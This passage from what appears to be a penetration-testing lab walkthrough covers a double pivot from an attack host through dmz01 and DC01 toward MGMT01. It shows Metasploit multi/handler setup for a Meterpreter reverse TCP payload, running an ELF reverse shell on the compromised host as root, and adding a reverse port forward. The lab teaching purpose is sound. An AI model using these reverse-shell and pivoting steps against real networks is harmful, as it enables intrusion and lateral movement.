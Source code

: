 Now there are a few ways to do this next part, we'll take the long route so we can ultimately SSH directly into the `172.16.9.25` host from our attack box, performing a bit of a mindbending double pivot in the process. Here is what we are trying to achieve, starting from our attack host and pivoting through the dmz01 and DC01 hosts to be able to SSH directly into the MGMT01 host two hops away directly from our attack host.

`Attack host` --> `dmz01` --> `DC01` --> `MGMT01`

We'll need to establish a reverse shell from the `dmz01` box back to our attack host. We can do this the same we way did in the `Internal Information Gathering` section, creating an ELF payload, uploading it to the target and executing it to catch a shell. Start by creating the ELF payload and uploading it back to the dmz01 host via SCP if you removed it.

Next, set up the Metasploit `exploit/multi/handler`.

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 10.10.14.15 
lhost => 10.10.14.15
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 443
LPORT => 443
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 10.10.14.15:443
```

Once again, execute the `shell.elf` file on the target system:

```shell-session
root@dmz01:/tmp# chmod +x shell.elf 
root@dmz01:/tmp# ./shell.elf 
```

Catch the Meterpreter shell using the multi/handler.

```shell-session
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 10.10.14.15:443 
[*] Sending stage (989032 bytes) to 10.129.203.111
[*] Meterpreter session 1 opened (10.10.14.15:443 -> 10.129.203.111:58462 ) at 2022-06-21 21:28:43 -0400

(Meterpreter 1)(/tmp) > getuid
Server username: root
```

Next, set up a local port forwarding rule to forward all traffic destined to port `1234` on dmz01 to port `8443` on our attack host.

```shell-session
(Meterpreter 1)(/root) > portfwd add -R -l 8443 -p 1234 -L 10.10.14.15
[*] Reverse TCP relay created: (remote) :1234 -> (local) [::]:1234
```
